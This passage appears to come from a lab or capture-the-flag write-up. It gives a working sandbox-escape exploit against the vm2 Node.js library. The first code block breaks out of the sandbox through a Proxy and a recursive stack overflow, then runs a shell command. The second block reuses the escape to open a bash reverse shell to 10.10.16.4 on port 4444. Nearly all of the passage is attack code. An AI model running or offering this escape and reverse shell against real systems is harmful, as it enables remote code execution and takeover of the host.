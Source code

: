 ```node
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
<br />

We can try to use it to get a reverse shell in the target machine:

```node
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.4/4444 0>&1"');
}
```
